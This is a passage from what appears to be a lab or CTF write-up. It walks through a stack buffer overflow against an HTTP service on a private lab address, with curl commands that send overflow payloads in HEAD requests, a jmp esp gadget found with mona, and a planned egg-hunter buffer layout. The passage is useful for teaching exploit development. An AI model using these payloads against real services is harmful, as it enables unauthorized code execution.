 So that’s 36 bytes, or 72 characters. I can verify (using 8 Bs to make 4 bytes):

```

root@kali# curl --head http://10.1.1.146:8008/$(python -c 'print "A"*72 + "B"*8')

```

![1554139443908](https://0xdfimages.gitlab.io/img/1554139443908.png)

### Find JMP ESP

Next I’ll look for a `jmp esp` gadget so that I can jmp back to my code once I gain execution. I’ll check out the modules using `!mona modules`:

[![Mona Modules](https://0xdfimages.gitlab.io/img/1554139883147.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1554139883147.png)

I need to find the `jmp esp` inside of a module without ASLR, or else it doesn’t help me. Good options appear to be the exe itself, the associated dll, and the MinGW dll.

I can use `!mona jmp -r esp` to find a list of possible gadgets:

[![Mona jmp esp](https://0xdfimages.gitlab.io/img/1554140320135.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/1554140320135.png)

The first one looks fine, so I’ll go with 0x625012f0.

I can give it a test. With a break point at 0x625012f0:

```

root@kali# curl --head http://10.1.1.146:8008/$(python -c 'print "A"*72 + "f0125062" + "B"*8')

```

When it hits the break, I can see that my Bs are at ESP:

![1554141287373](https://0xdfimages.gitlab.io/img/1554141287373.png)

If I step forward, I see I’m running the Bs:

![1554141443675](https://0xdfimages.gitlab.io/img/1554141443675.png)

### Egg Hunter

Space is an issue. I’ll remember that to get to the vulnerable code, I have to send a HEAD request that is shorter than 219 bytes. So the first 6 bytes are gone for “HEAD /”, and I need at least one “\n” on the end. Now I’m down to 212 bytes. So my buffer looks like:

```

"HEAD /" + [72 bytes] + [JMP ESP, 8 bytes] + [132 bytes] + "\n"

```

I don’t have a lot of space here, especially remembering that the 72 byte and 132 byte buffers are actually half those sizes because they take input in hex, which is 2 bytes per byte.
